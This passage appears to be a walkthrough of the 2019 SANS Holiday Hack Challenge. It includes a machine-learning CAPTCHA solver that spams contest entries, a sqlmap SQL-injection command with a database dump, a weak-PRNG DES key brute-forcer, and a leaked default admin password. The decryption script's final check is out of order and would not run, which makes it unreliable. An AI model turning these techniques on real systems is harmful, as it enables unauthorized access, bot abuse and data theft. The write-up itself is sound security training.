https://en.wikipedia.org/wiki/Office_Open_XML_file_formats

Query used:

```xquery
index=main sourcetype=stoq  "results{}.workers.smtp.from"="bradly buttercups <bradly.buttercups@eifu.org>" | eval results = spath(_raw, "results{}") 
| mvexpand results
| eval path=spath(results, "archivers.filedir.path"), filename=spath(results, "payload_meta.extra_data.filename"), fullpath=path."/".filename 
| search fullpath!="" 
| table filename,fullpath
```

**Core.xml**

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:title>Holiday Cheer Assignment</dc:title><dc:subject>19th Century Cheer</dc:subject><dc:creator>Bradly Buttercups</dc:creator><cp:keywords></cp:keywords><dc:description>Kent you are so unfair. And we were going to make you the king of the Winter Carnival.</dc:description><cp:lastModifiedBy>Tim Edwards</cp:lastModifiedBy><cp:revision>4</cp:revision><dcterms:created xsi:type="dcterms:W3CDTF">2019-11-19T14:54:00Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2019-11-19T17:50:00Z</dcterms:modified><cp:category></cp:category></cp:coreProperties>
```

Answer: **Kent you are so unfair. And we were going to make you the king of the Winter Carnival.**

# 7.0 - Get Access To The Steam Tunnels

> Gain access to the steam tunnels. Who took the turtle doves? Please tell us their first and last name.

## Holiday Hack Trail

Minty Candycane can be found in the Dormitory. Once I arrived, it was a pretty full house


Apparently Minty has found an old game on a 5 1/4 floppy disk called Holiday Hack Trail.


### Parameter Tampering

While playing the game could be fun, time is of the essence so we put our web application testing hat on and do some basic prodding.

We soon discover that the game only performs verification on the client-side for the Easy and Medium game modes lacking any server side controls.

On Hard the game makes use of hashing whereby certain parameters are hashed on the server side. The client responds back and includes this hash in its subsequent POST request.

Let's take a look at completing the game on Medium.

Using the Safari Developer Tools, we were able to increase all of the stats and give ourselves plenty to run through the game easily.


After progressing through the game, we win!


## Optical Key Decoding

Inside Mint'y closet we find a keyhole. Upon closer inspection we can see that this is a **Schlage** lock. 

A quick search on Wikipedia shows us what some Schlage keys may possibly look like:


Example Schlage keys:


Wondering around the room we catch Krampus, and if you pay attention before he runs into Minty's closet where the lock is, you can see he has a key clipped to his pants!


Using Safari Developer Tools we can grab the image then go about extracting the key. I used Affinty Photo.

You can find the decoding templates at Deviant Ollam's [Github](https://github.com/deviantollam/decoding) repo.

So after cutting out the key and lining it up with the Schlage decoding template, this it what it looks like:


We can see a Schlage key should have a bitting value of 5. 

After some jiggling and re-alignment we came up with the bitsetting value of `122520`

Using the key cutting machine we can cut a new Schlage key which should fit the lock.


So it turns out the way into the steam tunnels is via Minty's closet. After venturing into the tunnels we find out that Krampus Hollyfeld took the turtle doves.

Answer: **Krampus Hollyfeld**

# 8.0 - Bypassing the Frido Sleigh CAPTEHA

> Help Krampus beat the [Frido Sleigh contest](https://fridosleigh.com/).


After watching the talk discussing [Machine Learning Use Cases for Cyber Security](https://youtu.be/jmVPLwjm_zs) One such use case applied machine learning algorithms to image data and using this to guess CAPTCHA controls applied to websites to deter bots etc.

Training the algorithm on a set of known data of a specifc type such as images of Apples, then giving it another training set such as images of Oranges.

Theoretically the algorithm should then be able to make a fairly strong guess given a new unkown image type whether it looks more like an Apple or an Orange.

Another use case can be applied to the metadata of digital certificates, comparing a sample of characteristics applied to known good certificates against the traits of those used for malicous purposes.

Google Tensorflow is a python library for machine learning. 

For this objective we were provided some sample python files

- Sample python file for interacting with the CAPTCHA API
- Sample set of images used by the CAPTCHA
- Sample python script for training a set of images

These samples were similar to those found on the Google Tensorflow introduction page.

Being a python novice, i found this objective fairly challenging and I needed to break it down bit by bit to progress to get something working.

## Training the sample data

The first thing I did was setup my environment and go about getting the sample python scripts provided setup and working.

```shell
git clone https://github.com/chrisjd20/img_rec_tf_ml_demo.git
cd img_rec_tf_ml_demo
sudo apt install python3 python3-pip -y
sudo python3 -m pip install --upgrade pip
sudo python3 -m pip install --upgrade setuptools
sudo python3 -m pip install --upgrade tensorflow==1.15
sudo python3 -m pip install tensorflow_hub           
```

I had some issues with Xcode's default python version so proceeded to install Python 3.7 for MacOS and VSCode. After setup we can train the algorithm using `retrain.py`: 

```
python3 retrain.py --image_dir ./training_images/
```


After this is done, we can test the algorithm by putting some unknown images into the `unknown_images` directory and watch the algorithm do its thing:

```
Processing Image unknown_images/4.png
Processing Image unknown_images/2.png
Processing Image unknown_images/3.png
Processing Image unknown_images/1.png
Waiting For Threads to Finish...
TensorFlow Predicted unknown_images/4.png is a Banana with 100.00% Accuracy
TensorFlow Predicted unknown_images/1.png is a Apple with 99.99% Accuracy
TensorFlow Predicted unknown_images/2.png is a Apple with 99.96% Accuracy
TensorFlow Predicted unknown_images/3.png is a Banana with 100.00% Accuracy
```

Inspecting the png images, we can see the algorithm has correctly guessed what they are.

## Breaking down the objective

You only have 5 seconds to choose the correct images to complete the CAPTCHA:


After getting the sample data setup and working it was time to apply this to the objective. 

**Playing around with the API and looking over the code, we know that:**

- HTTP request to https://fridosleigh.com/api/capteha/request returns a JSON response with `base64` encoded images, each image has a `uuid` and `type` (containing which images the CAPTCHA wants selected which changes each request)
- Images are stored in a list called b64_images
- challenge_image_types should contain a list of the images that need to be selected in a CSV format and be sent in the HTTP POST.

**Rough outline of what we need to do:**

- Train CAPTCH data sets (this took around 10 minutes)
  - Candy Canes, Christmas Trees, Ornaments, Presents, Santa Hats and Stockings
- Add required functions and imports for Tenorflow into `capteha_api.py`
- Get it to work via the API data instead of using images on disk
- Handle JSON response
  - Extract and decode `base64` images
  - Extract `uuid` for each image
  - Extract `type`
- Cycle through each image against and pass it to algorithm, if it returns an image which is in `type` , then add the `uuid` to list
- POST the list of `uuid` which the CAPTCHA wants selected

After much time spent debugging, below is the final API script. 

**Final API Code with ML**:

```python
#!/usr/bin/env python3
# Fridosleigh.com CAPTEHA API - Made by Krampus Hollyfeld
import requests
import json
import sys
import base64
import os
os.environ['TF_CPP_MIN_LOG_LEVEL'] = '3'
import tensorflow as tf
tf.logging.set_verbosity(tf.logging.ERROR)
import numpy as np
import threading
import queue
import time
import sys

#################################### ADDED REQUIRED TF FUNCTIONS

def load_labels(label_file):
    label = []
    proto_as_ascii_lines = tf.gfile.GFile(label_file).readlines()
    for l in proto_as_ascii_lines:
        label.append(l.rstrip())
    return label

def predict_image(q, sess, graph, image_bytes, img_full_path, labels, input_operation, output_operation):
    image = read_tensor_from_image_bytes(image_bytes)
    results = sess.run(output_operation.outputs[0], {
        input_operation.outputs[0]: image
    })
    results = np.squeeze(results)
    prediction = results.argsort()[-5:][::-1][0]
    q.put( {'img_full_path':img_full_path, 'prediction':labels[prediction].title(), 'percent':results[prediction]} )

def load_graph(model_file):
    graph = tf.Graph()
    graph_def = tf.GraphDef()
    with open(model_file, "rb") as f:
        graph_def.ParseFromString(f.read())
    with graph.as_default():
        tf.import_graph_def(graph_def)
    return graph

def read_tensor_from_image_bytes(imagebytes, input_height=299, input_width=299, input_mean=0, input_std=255):
    image_reader = tf.image.decode_png( imagebytes, channels=3, name="png_reader")
    float_caster = tf.cast(image_reader, tf.float32)
    dims_expander = tf.expand_dims(float_caster, 0)
    resized = tf.image.resize_bilinear(dims_expander, [input_height, input_width])
    normalized = tf.divide(tf.subtract(resized, [input_mean]), [input_std])
    sess = tf.compat.v1.Session()
    result = sess.run(normalized)
    return result

#################################### WRAPPED CODE INTO main()
def main():
    yourREALemailAddress = "REDACTED@gmail.com"

    # Creating a session to handle cookies
    s = requests.Session()
    url = "https://fridosleigh.com/"

    json_resp = json.loads(s.get("{}api/capteha/request".format(url)).text)
    b64_images = json_resp['images']                    # A list of dictionaries eaching containing the keys 'base64' and 'uuid'
    challenge_image_type = json_resp['select_type'].split(',')     # The Image types the CAPTEHA Challenge is looking for.
    challenge_image_types = [challenge_image_type[0].strip(), challenge_image_type[1].strip(), challenge_image_type[2].replace(' and ','').strip()] # cleaning and formatting
    
   
    # Loading the Trained Machine Learning Model created from running retrain.py on the training_images directory
    graph = load_graph('/tmp/retrain_tmp/output_graph.pb')
    labels = load_labels("/tmp/retrain_tmp/output_labels.txt")

    # Load up our session
    input_operation = graph.get_operation_by_name("import/Placeholder")
    output_operation = graph.get_operation_by_name("import/final_result")
    sess = tf.compat.v1.Session(graph=graph)

    # Can use queues and threading to spead up the processing
    q = queue.Queue()
    #unknown_images_dir = 'unknown_images'
    #unknown_images = 1

    #################################### OUR CODE FOR HANDLING THE API DATA AND PASSING INTO TF
    
    for image in b64_images:
        print('Processing Image ' + image['uuid'])
        while len(threading.enumerate()) > 10:
            time.sleep(0.0001)
        img_full_path = image['uuid']
        image_bytes = base64.b64decode(image['base64'])
        threading.Thread(target=predict_image, args=(q, sess, graph, image_bytes, img_full_path, labels, input_operation, output_operation)).start()

        
		# Result processing and answers list
    print('Waiting For Threads to Finish...')
    while q.qsize() < len(b64_images):
        time.sleep(0.001)
    
    # Getting a list of all threads returned results
    prediction_results = [q.get() for x in range(q.qsize())]

    # Do something with our results...
    final_answers=[]
    for prediction in prediction_results:
        #print('TensorFlow Predicted {img_full_path} is a {prediction} with {percent:.2%} Accuracy'.format(**prediction))
        prediction_label = '{prediction}'.format(**prediction)
        prediction_uuid = '{img_full_path}'.format(**prediction)
        if prediction_label in challenge_image_types:
            #print('Found a match ' + prediction_label)
            final_answers.append(prediction_uuid)
            print('Found a match: ' + prediction_label + 'with UUID: ' + prediction_uuid)

    final_answer = ','.join(final_answers)
    print('Final answer contains ' + str(len(final_answer)) + ' images selected')

    #################################### EOC
    
    json_resp = json.loads(s.post("{}api/capteha/submit".format(url), data={'answer':final_answer}).text)
    if not json_resp['request']:
        # If it fails just run again. ML might get one wrong occasionally
        print('FAILED MACHINE LEARNING GUESS')
        print('--------------------\nOur ML Guess:\n--------------------\n{}'.format(final_answer))
        print('--------------------\nServer Response:\n--------------------\n{}'.format(json_resp['data']))
        sys.exit(1)

    print('CAPTEHA Solved!')
    # If we get to here, we are successful and can submit a bunch of entries till we win
    userinfo = {
        'name':'Krampus Hollyfeld',
        'email':yourREALemailAddress,
        'age':180,
        'about':"Cause they're so flippin yummy!",
        'favorites':'thickmints'
    }
    # If we win the once-per minute drawing, it will tell us we were emailed. 
    # Should be no more than 200 times before we win. If more, somethings wrong.
    entry_response = ''
    entry_count = 1
    while yourREALemailAddress not in entry_response and entry_count < 200:
        print('Submitting lots of entries until we win the contest! Entry #{}'.format(entry_count))
        entry_response = s.post("{}api/entry".format(url), data=userinfo).text
        entry_count += 1
    print(entry_response)


if __name__ == "__main__":
    main()
```

Watching the script do its thing:

```
% ./capteha_api.py
WARNING:tensorflow:From ./capteha_api.py:10: The name tf.logging.set_verbosity is deprecated. Please use tf.compat.v1.logging.set_verbosity instead.

WARNING:tensorflow:From ./capteha_api.py:10: The name tf.logging.ERROR is deprecated. Please use tf.compat.v1.logging.ERROR instead.

Processing Image afdeb38e-e584-11e9-97c1-309c23aaf0ac
Processing Image b58f6408-e584-11e9-97c1-309c23aaf0ac
Processing Image ba393571-e584-11e9-97c1-309c23aaf0ac
Processing Image c6cf7b20-e584-11e9-97c1-309c23aaf0ac
Processing Image ced41fe8-e584-11e9-97c1-309c23aaf0ac
Processing Image ee29a38b-e584-11e9-97c1-309c23aaf0ac
Processing Image f4aaa1d3-e584-11e9-97c1-309c23aaf0ac
[SNIP...]
Processing Image 3ede9ce0-e588-11e9-97c1-309c23aaf0ac
Processing Image 49267fcd-e588-11e9-97c1-309c23aaf0ac
Processing Image 496c20f8-e588-11e9-97c1-309c23aaf0ac
Processing Image 4acac252-e588-11e9-97c1-309c23aaf0ac
Processing Image 4ae6318f-e588-11e9-97c1-309c23aaf0ac
Waiting For Threads to Finish...
Found a match: Presentswith UUID: ba393571-e584-11e9-97c1-309c23aaf0ac
Found a match: Stockingswith UUID: 21d46ac5-e585-11e9-97c1-309c23aaf0ac
Found a match: Presentswith UUID: fc07e50b-e584-11e9-97c1-309c23aaf0ac
Found a match: Presentswith UUID: 2874b1a1-e585-11e9-97c1-309c23aaf0ac
Found a match: Stockingswith UUID: 48ee9e88-e585-11e9-97c1-309c23aaf0ac
Found a match: Christmas Treeswith UUID: be743401-e585-11e9-97c1-309c23aaf0ac
Found a match: Presentswith UUID: ff1b6c21-e585-11e9-97c1-309c23aaf0ac
Found a match: Stockingswith UUID: 3b12a724-e586-11e9-97c1-309c23aaf0ac
Found a match: Christmas Treeswith UUID: 3c9d7bdd-e586-11e9-97c1-309c23aaf0ac
Found a match: Christmas Treeswith UUID: 77b087bf-e586-11e9-97c1-309c23aaf0ac
Found a match: Presentswith UUID: 800d38dc-e586-11e9-97c1-309c23aaf0ac
Found a match: Stockingswith UUID: c45c9924-e586-11e9-97c1-309c23aaf0ac
Found a match: Presentswith UUID: 0503d7c3-e587-11e9-97c1-309c23aaf0ac
Found a match: Christmas Treeswith UUID: 21a4ce0d-e587-11e9-97c1-309c23aaf0ac
Found a match: Christmas Treeswith UUID: 47173b55-e587-11e9-97c1-309c23aaf0ac
Found a match: Stockingswith UUID: 4df3ed59-e587-11e9-97c1-309c23aaf0ac
Found a match: Stockingswith UUID: 8d7b3ae9-e587-11e9-97c1-309c23aaf0ac
Found a match: Christmas Treeswith UUID: 5056ec6b-e587-11e9-97c1-309c23aaf0ac
Final answer contains 665 images selected
CAPTEHA Solved!
Submitting lots of entries until we win the contest! Entry #1
Submitting lots of entries until we win the contest! Entry #2
Submitting lots of entries until we win the contest! Entry #3
Submitting lots of entries until we win the contest! Entry #4
[SNIP...]
Submitting lots of entries until we win the contest! Entry #100
Submitting lots of entries until we win the contest! Entry #101
Submitting lots of entries until we win the contest! Entry #102
{"data":"<h2 id=\"result_header\"> Entries for email address REDACTED@gmail.com no longer accepted as our systems show your email was already randomly selected as a winner! Go check your email to get your winning code. Please allow up to 3-5 minutes for the email to arrive in your inbox or check your spam filter settings. <br><br> Congratulations and Happy Holidays!</h2>","request":true}
```

Waiting for our winning email notification:



Success!

Answer: **8Ia8LiZEwvyZr2WO**

# 9.0 - Retrieve Scraps of Paper from Server

> Gain access to the data on the [Student Portal](https://studentportal.elfu.org/) server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system?


## Initial Analysis

A quick look over the application we can find the following features:

- Ability to submit a student application
- Ability to check the status of an existing application based on email address
- Submitting duplicate applications results in an SQL error

Examing the page source we can see that both `check.php` and `apply.php` implement custom Javascript code to request a new CSRF token from `/validator.php` for each request to submit or view an application:

```javascript
    <!--  Custom js -->
    <script>

    function submitApplication() {
      console.log("Submitting");
      elfSign();
      document.getElementById("apply").submit();
    }
    function elfSign() {
      var s = document.getElementById("token");

      const Http = new XMLHttpRequest();
      const url='/validator.php';
      Http.open("GET", url, false);
      Http.send(null);

      if (Http.status === 200) {
        console.log(Http.responseText);
        s.value = Http.responseText;
      }

    }

    </script>
```

Before we can go about testing we need a means to automatically obtain these tokens. For this I used Burp and created macros so that any request to view or submit an application automatically obtains a new token from `validator.php`. 

This worked well for reasons you'll see later.

## Setting up macros with Burp

1. Project Options > Sessions
2. Add Macro > Choose the request to `validator.php`
3. Configure Item > Edit - "Custom Parameter Locations"
4. Set name = token and select the token string from the response body
5. Choose "Extract from regex group"


6. Click OK twice
7. Give a name for the macro, I've used  GET_TOKEN_CHECK


8. Add a new "Session Handling Rule". This tells Burp when to run the macro we have configured.
9. Description = RULE_ADD_TOKEN_CHECK
10. Rule actions > Add our macro "GET_TOKEN_CHECK"
11. Under "Scope", check Proxy + Repeater, to enable this rule to apply to both tools
12. Under "Include in scope", Add https://studentportal.elfu.org/application-check.php
13. Click OK to confirm change and exit out.

We can confirm our macro and session handling rules are configured correctly but going into Burp Repeater and issuing a request to `check.php` multiple times and we should see a legit response, confirming we are supplying a correct token.

## Token Analysis

Looking into the token we can see that it is definitely **not** random. The first few bits didn't change after taking ~100 samples. Only a few characters at bit positions between 30-45 and 80-90 really changed.

Further examing the token by decoding it revealed it's just a timestamp. This exmplains the low entropy of the token. Nothing else too interesting here...


### Input Validation Testing

Given the earlier observation when initially looking at the application, we know that submitting duplicate applications resulted in a SQL error, raising suspicion right away that this could be the vector of attack. To confirm we sent a request over to Repeater for additional testing.

Testing `/application-check` with Burp Repeater:


Sure enough, confirming our SQL suspicion from earlier. Injection a single quote character into the `elfmail` parameter breaks the SQL syntax.

HTTP Request:

```http
GET /application-check.php?elfmail='test%40test123.com&token=MTAwOTQ5MjM4MTQ0MTU3NzMzMTg0NjEwMDk0OTIzOC4xNDQ%3d_MTI5MjE1MDI0ODI0MzIzMjMwMzc1NjIwLjYwOA%3d%3d HTTP/1.1
Host: studentportal.elfu.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://studentportal.elfu.org/check.php
Connection: close
Upgrade-Insecure-Requests: 1
```

HTTP Response:

```html
[SNIP...]   
   <!-- Begin page content -->
    <main role="main" class="main-container">
        <div class="coverbanner vh-100">
            <div class="background-img dark-img" style="background-image: url(img/topbanner.jpg);"></div>
            <div class="container">
              <p class="lead text-white mb-4">


Error: SELECT status FROM applications WHERE elfmail = ''test@test123.com';<br>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test@test123.com'' at line 1


              </p>
           </div>
        </div>
[SNIP...]
```

We can see we have broken the SQL syntax and caused the application to return an error. It also reports back this is a `MariaDB` flavoured SQL server.

With this information we can use `sqlmap` and tune it with the correct database version. I find its best to tune sqlmap as much as possible and really tune it to where it should be focusing its efforts.

I did attempt to try using the `--csrf` options without much luck, given that I already had Burp configured to handle this the easiest thing was to configure sqlmap to use Burp as a proxy.

```bash
sqlmap --url 'https://studentportal.elfu.org/application-check.php?elfmail=test%40test123.com&token=MTAwOTQ5MjM4MTQ0MTU3NzMzMTg0NjEwMDk0OTIzOC4xNDQ%3d_MTI5MjE1MDI0ODI0MzIzMjMwMzc1NjIwLjYwOA%3d%3d' -p 'elfmail' --referer='https://studentportal.elfu.org/check.php' --user-agent='Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -v 1 --dbms 'mysql' --batch --answers='expression=y' --level=3 --risk=3 --proxy='https://localhost:8080' --threads=1 
```

**sqlmap output:**


sqlmap also confirms the application is vulnerable to a **blind SQL injection**, we can append the `--dump` option to sqlmap and proceed to dump the database tables:

```
Database: elfu
Table: krampus
[6 entries]
+----+-----------------------+
| id | path                  |
+----+-----------------------+
| 1  | /krampus/0f5f510e.png |
| 2  | /krampus/1cc7e121.png |
| 3  | /krampus/439f15e6.png |
| 4  | /krampus/667d6896.png |
| 5  | /krampus/adb798ca.png |
| 6  | /krampus/ba417715.png |
+----+-----------------------+

[15:15:42] [INFO] table 'elfu.krampus' dumped to CSV file '/root/.sqlmap/output/studentportal.elfu.org/dump/elfu/krampus.csv'
```

Navigating to the image paths on the site, we were presented with what appears to be paper scraps of the letter which had been torn apart.


Once we piece back together the images in Affinity Photo, we can see that Santa's new cutting edge guidence technology is named "Super sled-o-matic". 


Answer: **Super Sled-o-matic**

# 10.0 - Cleartext

> The [Elfscrow Crypto](https://downloads.elfu.org/elfscrow.exe) tool is a vital asset used at Elf University for encrypting SUPER SECRET documents. We can't send you the source, but we do have [debug symbols](https://downloads.elfu.org/elfscrow.pdb) that you can use.
>
> Recover the plaintext content for this [encrypted document](https://downloads.elfu.org/ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc). We know that it was encrypted on December 6, 2019, between 7pm and 9pm UTC.
>
> What is the middle line on the cover page? (Hint: it's five words)

For this objective we were provided with:

- `elfscrow.exe` - An encryption and key escrow tool used by ELFU
- `elfscrow.pdb` - Debugging symbols provided for the elfscrow.exe tool
- `ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc` - Encrypted sensitive document

## Initial Analysis

Analysing the application we can see it has the following options:

- `--encrypt` to encrypt a file
- `--decrypt --id` to decrypt a file
- `--insecure` to initiate plain HTTP communications

```
λ elfscrow.exe -h
Welcome to ElfScrow V1.01, the only encryption trusted by Santa!

Are you encrypting a file? Try --encrypt! For example:

  elfscrow.exe --encrypt <infile> <outfile>

You'll be given a secret ID. Keep it safe! The only way to get the file
back is to use that secret ID to decrypt it, like this:

  elfscrow.exe --decrypt --id=<secret_id> <infile> <outfile>

You can optionally pass --insecure to use unencrypted HTTP. But if you
do that, you'll be vulnerable to packet sniffers such as Wireshark that
could potentially snoop on your traffic to figure out what's going on!
```

When we encrypt a file it generates a new key, then sends this off to be escrowed at elfscrow.elfu.org/api/store and we receive back a unique `id`.  This `id` is then used to decrypt the target file by making a request to the escrow API sending the `id` which will retrieve the associated key, then decrypt the file.

```
λ elfscrow.exe --encrypt secret.txt secret.enc
Welcome to ElfScrow V1.01, the only encryption trusted by Santa!

Our miniature elves are putting together random bits for your secret key!

Seed = 1578008101

Generated an encryption key: eb5505617473bf33 (length: 8)

Elfscrowing your key...

Elfscrowing the key to: elfscrow.elfu.org/api/store

Your secret id is ab80ff4f-357d-47d8-9c7d-94fe819e0db7 - Santa Says, don't share that key with anybody!
File successfully encrypted!

    ++=====================++
    ||                     ||
    ||      ELF-SCROW      ||
    ||                     ||
    ||                     ||
    ||                     ||
    ||     O               ||
    ||     |               ||
    ||     |   (O)-        ||
    ||     |               ||
    ||     |               ||
    ||                     ||
    ||                     ||
    ||                     ||
    ||                     ||
    ||                     ||
    ++=====================++
```

From the above initial analysis we know the following:

- A seed value i used, but we do not yet know how, but the application reports it and it changes each run
- A new key is generated each time, its an `8 byte` key.
- Some HTTPS communications occur for escrow purposes to an API.

We can make an early assumption that given the key length of 8 bytes, it could potentially be using DES encryption. 

From this years KringleCon talk, we know that when analysing malware with regards to encryption, the following is a good guess when it comes to determine what algorithm may be used:

| Block Size | Key Length (Bytes) |  Potential Algorithm     |
| ----- | ---- | ---- |
|    1-byte   |  -    |  RC4, Salsa20    |
|   8-bytes    |  7/8-bytes    |  DES    |
|  16-bytes     |  16/24/32-bytes    |  AES-128, AES-192, AES-256    |

- Potentially using DES

## Static Analysis

Knowing the above there is still a lot to figure out before we can attempt to decrypt the document.

- Where does this seed value come from?
- How are random numbers generated... Securely?
- If DES, what mode is being used, ECB or CBC?
- If CBC, then what about the Initialization Vector (IV)?

We will use IDA to take a look at the PE executable and load in the provided debug symbols. The debug symbols should allow us to view some of the function names within the source the executable was compiled from.


Checking the `Imports` table shows us other libraries that are being used by the elfscrow.exe binary. We can also see which specific functions in these libraries elfscrow.exe is using.

We can see right away the binary is using standard windows cryptography functions from `ADVAPI32.dll` 

- CryptImportKey
- CryptAcquireContextA
- CryptDecrypt
- CryptEncrypt

Full details on each of these function can be found on Microsoft's website.


Under the functions window, we can see function names imported from the debug symbols. The `do_encryption()` function looks on point, double clicking and IDA will load up the call tree to the beginning of this function.

Pressing enter to jump into the call to `generate_key()`, we land at the next function block.


We see some basic stack frame setup prologue then a call to `time`. 

The data returned from this call would be written into `EAX` 

`EAX` is the pushed onto the stack and IDA has determined this is likely a `seed` value. This is the parameter that is going to be passed into `super_secure_srand()`. 

Next we can see a loop that will iterate 8 times, each time calling `super_secure_random()` 


Jumping into the call to `super_secure_random()` we can see the following:

- Stack frame setup
- The `seed` which is not called `state` is moved into `EAX`
- `EAX` is multiplied by `214013` 
- An addition
- This value is then moved into `state` then bit shifted to the right 10h or 16 decimal times then and'd with 7FFFh

The import thing here is that why is `EAX` multiplied by the value `214013`?


Googling "rand + 213013" we can see that this formula is Microsoft's Psuedo Random Number Generator.

https://rosettacode.org/wiki/Linear_congruential_generator


The website also lists example code to implement this for the majority of coding languages.

So from this we now know:

- Seed is based on time
- Passed into Microsoft's PRNG to produce an 8 bytes key

Next I looked into the `do_decrypt()` function to see what else I could find out to answer more the questions I had earlier such as DES confirmation etc.


Examing this we can see the KeyBlob structure being setup, as found here:

https://docs.microsoft.com/en-au/windows/win32/api/wincrypt/ns-wincrypt-publickeystruc

Basically doing some quick research on functions names or descriptions leads you to Microsoft's documentation. From there you can get a better idea of what is going on. For example here is the structure for what we can see above.

```c
typedef struct _PUBLICKEYSTRUC {
  BYTE   bType;
  BYTE   bVersion;
  WORD   reserved;
  ALG_ID aiKeyAlg;
} BLOBHEADER, PUBLICKEYSTRUC;
```

The `aiKeyAlg` is `6601h` , again using the document we can see that this corresponds to DES.

https://docs.microsoft.com/en-us/windows/win32/seccrypto/alg-id

| Identifier | Value      | Description               |
| ---------- | ---------- | ------------------------- |
| CALG_DES   | 0x00006601 | DES encryption algorithm. |

We also confirm again the `dwKeySize` is 8 bytes. We can also see an error at `0x00402AA4` 

> CryptImportKey failed for DES-CBC key

So we know we know a bit more about what crypto is being used in elfscrow.exe

|   Item   | Value     |
| ---- | ---- |
|   Algorithm   | DES     |
|   Key Size   |  8 Bytes    |
|  Mode    |  CBC    |
|   PRNG   |  Microsoft    |
|   Seed   |  Timestamp / UTC    |

## Key Generator & Brute Forcer

### Breaking down the objective

- Python can we encrypt and decrypt a file?
- Can we generate the same timestamp?
- Can we generate the same key using the same seed (timestamp)?
- Can we decrypt a file encrypted with elfscrow.exe using the same key?
- Can we test for valid pdf file via filetypes?
- Can we brute force decryption until a valid file is detected?

After debugging and testing each of the above until each component had the desired result then removing all the test code. I was left with the following script.

- Generates begin and end epoch timestamps based on UTC between the time ranges given in the hint
- Implements the same LCG pseudo random number generater discovered in static analysis
- Loops through each timestamp (seed) within the range
  - Sends each seed into `vc_rand()` as `rndseed`
  - Returns 8 characters key per seed
- Converts key from hex characters into bytes
- Uses a default IV of 8 null characters
- Begins DES CBC decryption of file on disk
- Writes it to `decrypted_file`
- Each iteration, run `file_check()` and check if detected type is "pdf"
  - If pdf then break
  - Else continue to next iteration and generate a new key based on the need seed and decrypt

```python
from Cryptodome.Cipher import DES
import datetime
import pytz
import filetype
import struct
import binascii

def vc_srand(x):
    global rndseed
    rndseed = x
    
def vc_rand():
    global rndseed
    rndseed = (rndseed * 214013 + 2531011) & 0xffffffff
    return (rndseed >> 16) & 0xff;

def file_check():
    kind = filetype.guess('decrypted_file')
    if kind is None:
        print('Undetected')
        return
    return kind.extension
    #print('File MIME type: %s' % kind.mime)

def main():

    # Genarate Timestamp Seed Range
    timestamp_start = int(datetime.datetime(2019, 12, 6, 19, 00, tzinfo=pytz.utc).timestamp())
    timestamp_end = int(datetime.datetime(2019, 12, 6, 21, 00, tzinfo=pytz.utc).timestamp())
    print('Starting Seed: ' + str(timestamp_start))
    print('Ending Seed: ' + str(timestamp_end))

    

    for seed in range(timestamp_start, timestamp_end):
        # Generate Key
        vc_srand(seed)
        key = ""
        for i in range(0, 8):
            key += format(vc_rand(), '02x')
        key = bytes.fromhex(key)

        # Begin Decryption
        iv = bytes.fromhex('0000000000000000')
        cipher2= DES.new(key, DES.MODE_CBC, iv)
        f = open("ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc", "rb")
        ciphertext = f.read()
        msg = cipher2.decrypt(ciphertext)
        f.close()

        # Write Decrypted File
        f = open("decrypted_file", "wb")
        f.write(msg)
        f.close()

        # Check Validity
        if valid_file is "pdf":
        valid_file = file_check()
            print('Valid PDF Detected!')
            break

if __name__ == '__main__':
    main()
```

Running `keygen.py`:


Answer: **Machine Learning Sleigh Route Finder**

# 11.0 - Open Crate

This objective was a bunch of mini HTML/CSS related challenges. Using the browser developer tools we were able to find each of the unlock codes. 

Each code consisted of the same format, 8 capatical alphanumeric characters.

## Crate Lock 1

Found by examining developer tools console log

## Crate Lock 2

Visiable during print diaglogue 

## Crate Lock 3

Visiable in Network tab of developer tools

## Crate Lock 4

Found by examining local storage

## Crate Lock 5

Found by increasing the CSS .hologram perspective 

## Crate Lock 6

Found by examining Font property

## Crate Lock 7

Found in Javascript code searching "sad" reveals VERONICA function

## Crate Lock 8

Enable the `:active` pseudo state for all "chakra" class items. JVHTFKPU

Answer: **The Tooth Fairy**

# 12.0 - Filter Out Poisoned Sources of Weather Data

> Use the data supplied in the [Zeek JSON logs](https://downloads.elfu.org/http.log.gz) to identify the IP addresses of attackers poisoning Santa's flight mapping software. [Block the 100 offending sources of information to guide Santa's sleigh](https://srf.elfu.org/) through the attack. Submit the Route ID ("RID")

## Getting Credentials

Based on the hint that the credentials can be found in README.md on ELFU Github, I used `jq` with a regex looking for RrEeAaDdMe in the `http.log` data.

```json
cat http.log| jq '.[] | select((.uri | test("[Rr][Ee][Aa][Dd][Mm]")))' | jq -j '.["id.orig_h"], ", ", .host, ", ", .uri, "\n"' | more
42.103.246.130, srf.elfu.org, /README.md
```

**README.md File**

```
# Sled-O-Matic - Sleigh Route Finder Web API

### Installation

​```
sudo apt install python3-pip
sudo python3 -m pip install -r requirements.txt
​```

#### Running:

`python3 ./srfweb.py`

#### Logging in:

You can login using the default admin pass:

`admin 924158F9522B3744F5FCD4D10FAC4356`

However, it's recommended to change this in the sqlite db to something custom.
```
## Identifying Attack Sources

For this objective we need to identify around 100 bad source IP addresses which where attempting to attack and poison the Sleigh Route Finder. I continued to use `jq` to analyse the `http.log`. Though I did consider importing it into Splunk when `jq` wasn't playing nice.

From the hint, we should be focusing on the following attacks:

- XSS
- LFI
- SQL Injection
- Shells

I started building this filter just based on looking for one specific attack first such as SQL injection, I had "UNION or SELECT". Once I confirmed the `jq` syntax and the results I just proceeded to add in more strings, pipe in `more` and examine the results. If they looked good I continued adding more strings and repeating the process.

